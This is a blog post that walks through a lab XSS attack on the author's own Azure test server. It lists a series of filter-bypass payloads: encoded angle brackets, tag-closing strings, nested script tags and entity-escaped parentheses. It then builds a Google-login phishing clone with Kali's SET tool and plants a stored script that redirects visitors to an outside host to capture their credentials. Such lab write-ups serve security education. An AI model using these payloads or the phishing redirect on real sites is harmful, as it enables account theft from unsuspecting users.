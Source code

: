 ```yaml
---
layout: post
date: 2020-06-13
Author: Ali
categories: 
tags: [cyber security, web security]
comments: true
---
```


# XSS attack



### ⚠<u>**This article is only used for cyber security research, please do not use it for improper purposes.**</u>⚠





## Attack Simulation Design



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image01.png){width="5.768055555555556in" height="3.0833333333333335in"}



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image02.png){width="5.768055555555556in" height="3.0833333333333335in"}



## Create WEB Server

#### In order to simulate the attack more intuitively, I chose to rent a windows 2019 in Azure to create a victim web server.

#### The specific steps will not be demonstrated, I believe everyone can do it.

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image001.png){width="5.768055555555556in" height="3.0833333333333335in"}





## Step 1: Start testing your website for XSS attacks





### **An XSS attack requires two conditions**:

- #### **Need to inject malicious code into web pages;**

- #### **These malicious codes can be successfully executed by the browser**





### 😎First try😎



### Testing:

#### Try the simplest test code first 

<script>alert(/XSS/)</script>

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image002.png){width="5.768055555555556in" height="4.117361111111111in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image003.png){width="5.400468066491689in" height="1.7501520122484688in"}





## Result :

#### The returned result shows that the write was successful and nothing happens on the web page.

#### F12 to view the code, it shows that the input content is filtered, the "script" tag is not executed on the web page, but is directly printed in the form of text.



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image004.png){width="5.768055555555556in" height="1.511111111111111in"}













### 😎Second try😎



### Testing:

#### I want to test if the website has symbol filtering

%3cscript%3ealert(/XSS/)%3c/script%3e

#### HTML supports different encodings in many cases

####  like "<"  is equivalent to %3c and ">"  is equivalent to %3e.

#### This method can bypass some symbol filtering

![img ](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image006.png){width="5.768055555555556in" height="0.8555555555555555in"}





### Result :

#### From the results, < is not on the filter list.

#### An accident is that after several attempts, I found that although the web page did not filter" <>" but it filtered the brackets "()".



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image005.png){width="5.768055555555556in" height="2.6944444444444446in"}







### 😎Third try 😎



### Testing:

#### From the results of the first attempt, the input content will be passed in the form of text, indicating that the input content is limited to a tag, and the analysis code can also find that all our content is in the <u>**"td"**</u> tag.



#### Try closing the tab this time，We need add “Textarea” and “td” into our code.

```html
</textarea></td>%3cscr%3cscript%3eipt%3ealert(/XSS/)%3c/scr%3c/script%3eipt%3e
```

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image007.png){width="5.768055555555556in" height="3.9555555555555557in"}



### Result :

#### The code we entered appeared directly on the web page, which is a successful signal

#### This shows that the code is indeed executed.



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image008.png){width="5.768055555555556in" height="0.9854166666666667in"}





### 😎Fourth try：😎

### Testing:

### In the third attempt, the code was successfully executed, but there was no pop-up window specific to XXS attacks. 

### My thinking this time is to append the "Body" closing tag,

#### 





```html
</body\>\</textarea\>\</td\>\<svg\>\<script\>alert&#40/XSS/&#41\</script\>
```

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image009.png){width="5.768055555555556in" height="2.571527777777778in"}





### Result :

#### The XSS attack was successful and the code was successfully executed. 

#### After successful execution of XSS, all users browsing this web will be affected.

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image010.png){width="5.768055555555556in" height="3.15625in"}







## Step 2: Build a phishing website via SET 

#### The hacker uses the latest Kali system, 

#### we can use the SET attack to quickly create a phishing web page, and any results entered on the phishing web page will be returned to the SET server.

#### This time I used google's login page directly

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image013.png){width="5.768055555555556in" height="4.236111111111111in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image015.png){width="5.768055555555556in" height="3.277083333333333in"}



#### After the phishing website is completed, we need to map the webpage to the public network so that everyone on the Internet can access the phishing website.



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image016.png){width="5.768055555555556in" height="3.4756944444444446in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image017.png){width="5.768055555555556in" height="1.3784722222222223in"}







## Implant malicious code

   

#### Use window.location.href=\"https://fubxzk.39nat.com\"; instead of alert&#40/XSS/&#41\

#### The final malicious code is：

```html
</body\>\</textarea\>\</td\>\<svg\>\<script\>window.location.href=\"https://fubxzk.39nat.com\";\</script\>
```

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image020.png){width="5.768055555555556in" height="2.841666666666667in"}







#### If the user enters account information on the web page, the information will be sent directly to the SET server

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image021.png){width="5.768055555555556in" height="3.6444444444444444in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image022.png){width="5.768055555555556in" height="2.0368055555555555in"}



#### So far, An entire XSS attack is completed.

#### By the way,This is not my email address, and the password is also made up.

### and

# ⚠<u>**This article is only used for cyber security research, please do not use it for improper purposes.**</u>⚠



